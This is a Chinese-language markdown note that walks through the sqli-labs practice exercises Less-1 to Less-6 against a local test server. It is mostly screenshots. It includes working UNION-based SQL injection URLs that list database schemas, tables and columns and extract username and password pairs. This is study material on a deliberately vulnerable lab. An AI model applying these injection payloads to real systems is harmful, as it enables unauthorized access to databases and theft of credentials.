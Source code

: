 [SQL注入](SQL注入.md)
# less-1
- 数字型
![](图片/Pasted%20image%2020241103182158.png)
![](图片/Pasted%20image%2020241103182234.png)
![](图片/Pasted%20image%2020241103182341.png)
![](图片/Pasted%20image%2020241103182451.png)
![](图片/Pasted%20image%2020241103182507.png)
字段数为3，回显点为2，3
![](图片/Pasted%20image%2020241103182739.png)
数据库名security 数据库 版本 5.7.28
逐级爆破
http://127.0.0.1/sqli-labs/Less-1/?id=-1%27%20union%20select%201,2,group_concat(schema_name)%20from%20information_schema.schemata--+
![](图片/Pasted%20image%2020241103193607.png)
http://127.0.0.1/sqli-labs/Less-1/?id=-1%27%20union%20select%201,database(),group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema=database()--+
![](图片/Pasted%20image%2020241103193901.png)
查询表users里的字段名，发现有多个不同的users表，有多个不同的字段
![](图片/Pasted%20image%2020241103194218.png)
限定数据库为security
http://127.0.0.1/sqli-labs/Less-1/?id=-1%27%20union%20select%201,database(),group_concat(column_name)%20from%20information_schema.columns%20where%20table_name=%27users%27%20AND%20table_schema=%27security%27--+
`SELECT * FROM users WHERE id='-1' union select 1,database(),group_concat(column_name) from information_schema.columns where table_name='users' AND table_schema='security'-- ' LIMIT 0,1`
![](图片/Pasted%20image%2020241103194611.png)
爆破字段
http://127.0.0.1/sqli-labs/Less-1/?id=-1%27%20union%20select%201,database(),(select%20(group_concat(username,0x7e,password))%20from%20users)--+
SELECT * FROM users WHERE id='-1' union select 1,database(),(select (group_concat(username,0x7e,password)) from users)-- ' LIMIT 0,1
![](图片/Pasted%20image%2020241103195451.png)
# less-2

![](图片/Pasted%20image%2020241103195630.png)
无数据回显 证明存在注入点
![](图片/Pasted%20image%2020241103195833.png)
![](图片/Pasted%20image%2020241103195819.png)
判断字段数 order by 4报错 order by 3 无数据显示
![](图片/Pasted%20image%2020241103200137.png)
![](图片/Pasted%20image%2020241103200158.png)
判断回显点 也可以用来判断字段数
![](图片/Pasted%20image%2020241103200346.png)
逐级爆破 得到数据库名 数据库版本
![](图片/Pasted%20image%2020241103200935.png)
爆破表名
http://localhost/sqli-labs/Less-2/?id=-1%20union%20select%201,database(),group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema=%27security%27--+
![](图片/Pasted%20image%2020241103201248.png)
爆破字段名
http://localhost/sqli-labs/Less-2/?id=-1%20union%20select%201,database(),group_concat(column_name)%20from%20information_schema.columns%20where%20table_schema=%27security%27%20and%20table_name=%27users%27--+
![](图片/Pasted%20image%2020241103201455.png)
爆破字段
http://localhost/sqli-labs/Less-2/?id=-1%20union%20select%201,%202,%20(select%20group_concat(username,%200x7e,%20password)%20from%20security.users)--+
![](图片/Pasted%20image%2020241103201955.png)
# less-3
与less-1，less-2相似
先通过报错，判断闭合方式
![](图片/Pasted%20image%2020241103204823.png)
判断字段数
![](图片/Pasted%20image%2020241103205330.png)
判断回显点
![](图片/Pasted%20image%2020241103205455.png)
数据库相关和版本
剩下的逐级爆破
![](图片/Pasted%20image%2020241103210850.png)
![](图片/Pasted%20image%2020241103211001.png)
![](图片/Pasted%20image%2020241103211445.png)
# less-4
同理
先报错回显，看闭合方式
![](图片/Pasted%20image%2020241103223356.png)
![](图片/Pasted%20image%2020241103223502.png)
剩下的同上
# less-5
无页面回显点 但是有报错回显
![](图片/Pasted%20image%2020241104181803.png)
[猜解](SQL注入.md#^b4610c)
# less-6
与less-5同理 id 闭合方式不同




